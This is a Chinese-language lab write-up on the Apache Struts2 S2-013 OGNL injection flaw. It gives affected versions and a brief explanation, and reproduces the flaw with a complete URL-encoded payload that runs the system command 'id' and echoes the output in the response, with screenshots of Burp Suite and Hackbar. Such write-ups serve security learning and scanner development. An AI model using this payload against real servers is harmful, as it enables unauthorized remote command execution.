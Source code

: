 # Struts2_013_远程代码执行

###### by ADummy

### 0x00利用路线

​			直接url执行payload，由于浏览器url输入框的长度有限，可以使用Hackbar插件，或burpsuite抓包测试。

### 0x01漏洞介绍

​			<s:a>includeParams="all">Click here.</s:a>,这个是struts2标签库的a标签，该标签会在页面上显示当前URL

Struts2标签库中的url标签和a标签的includeParams这个属性，代表显示请求访问参数的含义，一旦它的值被赋予ALL或者GET或者POST,就会显示具体请求参数内容。按照正常的需求,把参数urlEncode一下也就够了， 问题在于，struts把参数做了OGNL解析,导致OGNL表达式的执行。

​			影响版本

  		2.0.0 - 2.3.14.1

### 0x02漏洞复现



#### payload：

link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('**id**').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('**dbapp%3D**'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D



​			登录界面

![S2_013_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_013_rce_1.png)



​			Burpsuite抓包

![S2_013_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_013_rce_2.png)

​				

​			Hackbar执行payload

![S2_013_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_013_rce_3.jpg)

### 0x03总结

​				这是笔者的第二篇文章，由于我目前在华顺信安实习，写一些漏洞的POC和EXP，搜集一些可以利用的漏洞，补充到Goby扫描器中。今天刚好在师傅的带领下写了这个漏洞的POC，由于年代久远，及同样的框架完全可以由很多漏洞解决。但还是很具有学习意义。笔者较菜，暂时不能做代码分析。如果有需要，强烈推荐Devil师傅的文章。

### 0x04参考资料

https://www.cnblogs.com/devi1/p/13486629.html